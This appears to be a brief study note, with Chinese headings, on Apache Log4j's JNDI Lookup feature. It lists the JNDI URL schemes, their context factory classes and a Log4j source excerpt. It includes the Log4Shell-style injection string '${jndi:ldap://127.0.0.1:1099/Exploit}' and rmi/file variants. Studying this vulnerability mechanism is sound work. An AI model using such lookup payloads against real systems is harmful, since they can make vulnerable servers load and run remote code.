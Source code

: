 ### 特性 - Lookups

#### JNDI Lookup

https://logging.apache.org/log4j/2.x/manual/lookups.html#JndiLookup

org.apache.logging.log4j.core.lookup.JndiLookup

`${jndi:ldap://127.0.0.1:1099/Exploit}`

jndi -> org.apache.logging.log4j.core.lookup.JndiLookup

JNDI -> 

- ldap://127.0.0.1:1099/Exploit
  - com.sun.jndi.url.ldap.ldapURLContextFactory

- rmi://127.0.0.1:1099/Exploit
  - com.sun.jndi.url.rmi.rmiURLContextFactory
- file:///${user.home}/Exploit
  - com.sun.jndi.url.file.fileURLContextFactory



jndi.properties

```properties
java.naming.factory.initial = jndi.file.FileSystemInitialContextFactory
```





org.apache.logging.log4j.core.lookup.Interpolator#Interpolator(java.util.Map<java.lang.String,java.lang.String>):

```java
        // JNDI
        try {
            // [LOG4J2-703] We might be on Android
            strLookupMap.put(LOOKUP_KEY_JNDI,
                Loader.newCheckedInstanceOf("org.apache.logging.log4j.core.lookup.JndiLookup", StrLookup.class));
        } catch (final LinkageError | Exception e) {
            handleError(LOOKUP_KEY_JNDI, e);
        }
```



## RMI - Remote Method Invocation



## [JNDI - Java Naming and Directory Interface](https://www.oracle.com/java/technologies/naming-and-directory-interface.html)

